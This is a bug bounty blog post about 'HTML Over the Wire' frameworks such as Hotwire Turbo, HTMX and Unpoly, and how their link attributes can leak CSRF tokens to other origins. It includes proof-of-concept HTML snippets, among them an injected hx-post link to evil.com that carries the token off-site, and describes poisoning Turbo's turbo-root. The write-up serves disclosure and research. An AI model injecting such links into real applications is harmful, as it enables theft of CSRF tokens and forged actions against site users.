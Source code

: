 ```yaml
---
layout: post
title:  "HTML Over the Wire"
date:   2023-07-30
categories: bugbounty
---
```


*A new web app architecture pattern is being adopted by many popular frameworks. Let's talk about risk!*

--- 

# What is HTML Over the Wire? A brief history of web app tech.  

***TL;DR: Early web applications made you wait after every click until it could render an HTML response on the server and send it back. SPAs made the web more responsive by handling interactions in the background and updating the UI by sending XHR requests to JSON/XML apis. A new pattern has recently emerged that attempts to combine these two approaches, but brings with it some interesting and dangerous new functionality.*** [Skip Ahead](#A)

I'm old enough to remember a time before reactive, responsive single-page web applications (SPA) were the norm. Heck I'm old enough to remember a time before the vast majority of the web was dynamic at all, but I want to talk about a time somewhere between ancient history and the modern web. 

Back then, users interacted with websites through simple actions like submitting forms and clicking links. When you performed any of these actions, the browser would send a request to the server and then pause to wait for a response. The server, upon receiving the request, would process the input and generate an entirely new HTML document. This freshly generated page would be returned to the browser, and the whole cycle would start again for each new action. 

The problem with this approach was that it felt really slow and cumbersome having to wait for the full request/response cycle to complete after every click. To deal with this, web developers began using javascript to create real-time responsive interactions on the page. Clicking a button could fire off an AJAX / XHR request in the background and display some new data without having to reload the entire page. Eventually, entire libraries and frameworks were developed to make these "responsive" interactions more accessible. And now, the most common architecture we see in modern web applications is the SPA pattern, where the application runs almost entirely on the client and uses asynchronous / background http requests to JSON APIs to populate the app with dynamic data. 

This is much more performant. SPAs are snappy and react instantly when you click on things. The modern web just feels nice compared to the clunky, cumbersome apps of old. But it's not perfect. Generally, an SPA sends a fetch request to collect some data from the server. That response gets wrapped in JSON or XML, and then the client is expected to parse it, process it, and reflect it in the UI using javascript. The frameworks that enable this can be very complex and very weighty, and developers have to write a lot of custom javascript to get things working correctly. But, as is always the way with these things, pain brings innovation. Over the last few years popular frameworks have been adopting a new approach to web application architecture. 

HTML Over the Wire, sometimes called "FROW" or "fragments over the wire", is a web application architecture that attempts to combine the simplicity of the ancient practice of rendering HTML on the server with the snappy responsiveness common in single-page applications. By rendering HTML on the server, you can significantly reduce the need for custom javascript in the frontend. Then, you can retrieve the rendered HTML using asynchronous fetch requests that dynamically update portions of the rendered page without a full reload. 

---
<a name="A"></a>
Some of the libraries and framework extensions that attempt to enable HTML Over the Wire include 
  - Hotwire Turbo - default frontend framework that ships with Rails 7
  - Unpoly - framework agnostic javascript library
  - HTMX - another framework agnostic javascript library, one of the earliest HOTW libraries
  - Laravel Livewire - HOTW for Laravel applications 
  - Phoenix Liveview - HOTW for elixir applications
  - Django Sockpuppet - HTML over websockets, a different approach with the same goal and similar risks.
  - more?
    
This writeup details a security concern related to a single specific feature common to many of these libraries. After spending a few hours in documentation hell, I had a hypothesis about a particular issue that I expected to find in some of them. I tested for it in Hotwire Turbo, HTMX, and unpoly and only unpoly handled it safely. I suspect this issue, and many more related issues, exist in these frameworks. I hope this article prompts some of you to find more!

---

# Clicking links is not just for GET requests anymore. 

When you click a link on a website, you don't want to have to wait for a full page reload. Instead, you can use javascript to intercept the link click, firing off a `fetch()` in the background, and updating the UI without reloading the page. Almost every HOTW library does this automatically without the need for any custom javascript. Every link click and form submission is intercepted, the default browser behaviour is interrupted, and the request is instead sent using fetch() / XHR. 

The default browser behaviour for handling a link click is extremely simple. It just sends a GET request. But, now that we're handling link clicks with fetch we could potentially make them a lot more powerful. Given that HOTW wants to reduce the need for custom javascript, many of these frameworks expose some of the most powerful fetch() API features through HTML attributes. 

For example, in hotwire turbo you get this handy syntax:
```
<a href="..." data-turbo-method="POST">Click me to post!</a>
```

in HTMX you have:
```
<a href="..." hx-post="http://something.com">Click me to post!</a>
```

in Unpoly you have:
```
<a href="..." up-method="POST">Click me to post!</a>
```

Similar features exist in other HOTW libraries. You can probably already see the potential here. Simple link injections just got a lot more interesting. 

Some of these libraries even allow you to attach headers to the request in the same way. With HTMX you can do this using:
```
<a href="..." hx-headers='{"Header": "Value"}'>Click me!</a>
```

And with unpoly:
```
<a href="..." un-headers='{"Header": "Value"}'>Click me!</a>
```

You probably already have some ideas for how these features could be leveraged in attack chains. The rest of this article will focus on a specific issue I was able to exploit in both Hotwire Turbo and HTMX. This is a fairly simple bug and I'm certain there are many cooler things to discover. 

---

# CSRF Token Exposure. 

A lot of web app frameworks will read CSRF tokens from headers. Rails, for example, will read the csrf token from the `x-csrf-token` header, and django will read it from `x-csrftoken`. This is a fairly common convenience for SPA style applications. The framework will embed a <meta> tag containing the token in the HTML so it can be accessed by javascript and attached as a header to fetch requests. 

![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/2305261e-a674-4fd5-93e3-faf53eae5c67)

Of course, HOTW wants to minimize custom javascript, so they often implement simplified ways to access these tokens. For example, let's look at how this works in Hotwire Turbo. 

When you submit a form, or click a link in a turbo-enabled app, turbo interrupts the default browser behaviour to determine how to handle sending the request. If the destination of the request is to an offsite location on a completely different host, turbo will hand control back over to the browser so that it can process the request in the normal way. If it's a relative path to a local resource, turbo will handle the request asynchronously using fetch. 

Turbo allows you to specify a "turbo-root" directive in a meta tag. This allows you to further restrict what links will be processed by turbo. You set the turbo-root to a local path, and only links to that path will be processed by turbo. At least, that's how it's supposed to work according to this documentation: 
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/927fea12-5c2f-49a5-b823-3423384bad18)

In reality, there's nothing preventing you from setting your turbo root to a fully qualified URL pointing to an off-site location. Unfortunately, when you click a turbo-enabled POST link that matches the turbo-root, the CSRF token is sent along. This means that if you can poison the turbo root and inject a link you can extract a csrf token. I've seen this in an exploitable context where the turbo-root was dynamically set to a user-controlled path, and link injection was possible on the same page. 

Note in the following image, a request to localhost happily shipped the csrf-token to evil.com. (the 405 error is just because I'm using an instance of node `http-server` that doesn't accept post requests) 
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/1102201e-6593-46dd-bf0c-66f0b25e1ca1)

This bug was reported to the Hotwire Turbo maintainers months ago, but no patch has been released. 

---

A similar issue exists in HTMX. With this framework you can attach an hx-header attribute to some tag, and have the functionality cascade to links and forms that are children of that element. This is actually recommended in the documentation:

![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/1f57f420-1e06-495b-8653-9e859a7bb1d0)

Unfortunately, there's nothing in place to prevent sending this header to cross-origin hosts. If a page has this hx-header attribute in the body tag, injecting a POST link anywhere in the body will result in the CSRF tag being sent to wherever that link is pointing, even if it's another domain. 

So in an application that follows the documentation where the body tag includes the hx-headers directive, and a link later in the body points to a domain controlled by the attacker:
```
<body hx-headers='{"X-CSRFToken": "{{ csrf_token }}"}'>
...
<a hx-post="http://evil.com:8008">TEST</a>
```

Again note that the HTMX app is running on localhost, but sending the csrf token to evil.com. (again the 405 is just the servers response to any POST req.)
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/01a7a622-3f3d-4b7f-85a4-e751bc68d33c)

---

These are two simple attacks leveraging some of the design philosophies built into this new HTML Over the Wire architecture. I have no doubt that many more interesting attacks will be discovered. Happy hacking!
